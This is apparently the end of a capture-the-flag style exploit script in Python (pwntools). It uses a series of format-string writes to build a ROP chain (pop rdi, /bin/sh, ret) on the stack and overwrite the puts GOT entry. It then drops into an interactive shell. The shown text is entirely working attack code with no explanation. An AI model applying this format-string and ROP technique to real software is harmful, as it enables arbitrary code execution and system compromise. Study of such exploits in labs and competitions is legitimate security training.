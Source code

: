 ```python
    payload1 = payload1.ljust(0x10)
    payload1 += p64(libc_start_main_stack)

    sl(payload1)
    sl(b"no")
    target2 = (pop_rdi >> 16) & 0xFFFF
    payload1 = f"%{target2-0x18}c%10$hn".encode()
    payload1 = payload1.ljust(0x10)
    payload1 += p64(libc_start_main_stack + 2)
    sl(payload1)
    sl("no")
    target3 = pop_rdi >> 32
    payload1 = f"%{target3-0x18}c%10$n".encode()
    payload1 = payload1.ljust(0x10, b"a")
    payload1 += p64(libc_start_main_stack + 4)
    sl(payload1)
    sl("no")
    target1 = bin_sh & 0xFFFF
    payload1 = f"%{target1-0x18}c%10$hn".encode()
    payload1 = payload1.ljust(0x10)
    payload1 += p64(libc_start_main_stack + 8)

    sl(payload1)
    sl(b"no")
    target2 = (bin_sh >> 16) & 0xFFFF
    payload1 = f"%{target2-0x18}c%10$hn".encode()
    payload1 = payload1.ljust(0x10)
    payload1 += p64(libc_start_main_stack + 10)
    sl(payload1)
    sl("no")
    target3 = bin_sh >> 32
    payload1 = f"%{target3-0x18}c%10$n".encode()
    payload1 = payload1.ljust(0x10, b"a")
    payload1 += p64(libc_start_main_stack + 12)
    sl(payload1)
    sl("no")
    target1 = ret & 0xFFFF
    payload1 = f"%{target1-0x18}c%10$hn".encode()
    payload1 = payload1.ljust(0x10)
    payload1 += p64(libc_start_main_stack + 16)

    sl(payload1)
    sl(b"no")
    target2 = (ret >> 16) & 0xFFFF
    payload1 = f"%{target2-0x18}c%10$hn".encode()
    payload1 = payload1.ljust(0x10)
    payload1 += p64(libc_start_main_stack + 18)
    sl(payload1)
    sl("no")
    target3 = ret >> 32
    payload1 = f"%{target3-0x18}c%10$n".encode()
    payload1 = payload1.ljust(0x10, b"a")
    payload1 += p64(libc_start_main_stack + 20)
    sl(payload1)
    sl("no")

    payload = f"%{0x133c-0x18}c%10$hn".encode()
    payload = payload.ljust(0x10)
    payload += p64(exe.got.puts)
    sl(payload)
    sl("no")
    p.interactive()
```